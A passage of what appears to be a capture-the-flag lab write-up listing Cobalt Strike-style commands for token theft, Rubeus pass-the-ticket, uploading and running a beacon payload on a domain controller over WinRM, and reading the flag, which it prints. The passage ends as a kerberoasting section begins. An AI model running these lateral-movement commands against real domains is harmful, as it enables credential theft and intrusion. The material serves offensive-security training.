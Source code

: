 3. **Steal Token:**
   ```
   steal_token <id>
   ```
   This command steals a token identified by its ID.

4. **Create NetOnly Ticket with Pass-The-Ticket (PTT):**
   ```
   execute-assembly /Users/ahmedpinger/Documents/Tools/Rubeus/Rubeus/bin/Release/Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /ticket:doIGVj{stripped}CCBlKgA /ptt
   ```
   This command creates a NetOnly ticket with Pass-The-Ticket (PTT) option for immediate use.

### Lateral Movement and Accessing Flag:

1. **Upload Payload to DC:**
   ```
   cd \\dc-1.hackr.games\c$\Windows\Temp
   upload /Users/ahmedpinger/payloads/smb_x64.exe
   ```
   This command uploads a payload to the specified directory on the Domain Controller.

2. **Execute Payload on DC:**
   ```
   remote-exec winrm dc-1.hackr.games "C:\Windows\Temp\smb_x64.exe"
   ```
   This command executes the uploaded payload on the Domain Controller using WinRM (Windows Remote Management).

3. **Link Beacon to DC:**
   ```
   link dc-1.hackr.games <pipe_name>
   ```
   This command links the beacon to the Domain Controller for further interaction.

4. **Access Flag:**
   ```
   powerpick type C:\Users\Administrator\Desktop\flag.txt
   ```
   This command retrieves and displays the content of the `flag.txt` file located on the Administrator's desktop.

### Flag:
   ```
   flag{Certificate_Templates_are_PowerFull}
   ```
   This is the extracted flag indicating successful lateral movement and access.

---

## Flag 7

It involves the exploitation of Out-Bound domain trust and then moving forward and performing lateral movement with the kerberoasting attack.

### Enumerating Domain Trusts on DC:
